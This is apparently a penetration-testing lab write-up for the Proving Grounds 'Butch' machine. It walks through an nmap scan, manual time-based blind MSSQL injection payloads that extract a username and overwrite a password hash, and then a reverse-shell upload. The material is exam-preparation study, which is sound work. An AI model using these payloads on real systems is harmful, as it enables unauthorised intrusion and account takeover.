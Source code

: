 #### Mind map

![Butch](https://user-images.githubusercontent.com/8998412/158007932-e61409eb-080e-48b8-b874-5d395cd7d659.png)

#### Enumeration

```
# Nmap 7.92 scan initiated Sun Feb 27 04:50:54 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/xml/_full_tcp_nmap.xml 192.168.184.63
Nmap scan report for 192.168.184.63
Host is up, received user-set (0.30s latency).
Scanned at 2022-02-27 04:50:54 EST for 477s
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
25/tcp   open  smtp          syn-ack ttl 127 Microsoft ESMTP 10.0.17763.1
| smtp-commands: butch Hello [192.168.49.184], TURN, SIZE 2097152, ETRN, PIPELINING, DSN, ENHANCEDSTATUSCODES, 8bitmime, BINARYMIME, CHUNKING, VRFY, OK
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH TURN ETRN BDAT VRFY
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
450/tcp  open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Butch
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=2/27%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=621B4B5B%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=U)
OPS(O1=M54ENW8NNS%O2=M54ENW8NNS%O3=M54ENW8%O4=M54ENW8NNS%O5=M54ENW8NNS%O6=M54ENNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M54ENW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: butch; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-02-27T09:58:14
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51234/tcp): CLEAN (Timeout)
|   Check 2 (port 45630/tcp): CLEAN (Timeout)
|   Check 3 (port 37138/udp): CLEAN (Timeout)
|   Check 4 (port 14133/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 1s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   295.76 ms 192.168.49.1
2   295.78 ms 192.168.184.63

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 27 04:58:51 2022 -- 1 IP address (1 host up) scanned in 477.73 seconds

```

I find the website that runs on port 450 has SQL injection vulnerability by using the waiting test.

```SQL
'; WAITFOR DELAY '00:00:10'; --
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_15h14m52s_001.png)

Attempts to log in using the usernames ```admin``` and ```administrator``` failed.

```SQL
' or 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_15h21m20s_002.png)

Because we can't use automatic exploitation tools in the exam, I start doing it manually.

First, we must know the name of the field.

```SQL
' HAVING 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_15h34m35s_003.png)

```SQL
' GROUP BY users.username HAVING 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_15h37m46s_004.png)

```SQL
' GROUP BY users.username, users.password_hash HAVING 1=1; --
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_15h38m52s_005.png)

Now we know that the data table users has two fields username and password_hash.

Check how many data are in the data table users. We can see from the query below that there is only one data.

```SQL
'; IF (SELECT COUNT(*) FROM users) = 1 WAITFOR DELAY '00:00:05'; --
```
Finding the username ```butch```.

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 97) WAITFOR DELAY '00:00:05'; --
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 98) WAITFOR DELAY '00:00:05'; -- 
-- and so on
```

Guessing the length of the password by the command below.

```SQL
'; IF (SELECT LEN(password_hash) FROM users) > 10 WAITFOR DELAY '00:00:05'; -- 
-- and so on
```

Finally, we know that the password length is 64, so it may have been hashed. Because of the length of the password so I guessed that may use SHA-256 hash. (Because manually guessing all the password is too slow and may not be able to restore the original password we try to update directly.)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_16h05m30s_006.png)

Now we update the new password ```123456```.

```SQL
-- 123456
'; UPDATE users SET password_hash = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WHERE user = 'butch'; -- 
-- check if update is successful
'; IF (SELECT password_hash FROM users WHERE user = 'butch') = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WAITFOR DELAY '00:00:05'; -- 
```

Login with username ```butch``` and password ```123456```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_16h18m08s_007.png)

This page looks like an upload page written in aspx, we try to use the bypass technique here to see if we can upload the reverse shell page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_16h28m52s_008.png)

Prepare a reverse shell page. I add the output string to see if it can be executed properly.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_16h31m32s_009.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_16h32m03s_010.png)

Uploading the page file and starting a listener at port 450.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_16h34m18s_011.png)

Browsing to url ```http://192.168.202.63:450/shell.aspx```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_16h35m10s_012.png)

We get the shell.
 
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_16h37m10s_013.png)
 
#### Privilege escalation

Because we already have ```nt authority\system``` privilege, we don't need to escalate.
 
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Proving_Grounds_Writeups/Pic/Butch/Butch_2022.03.12_16h37m10s_013.png)
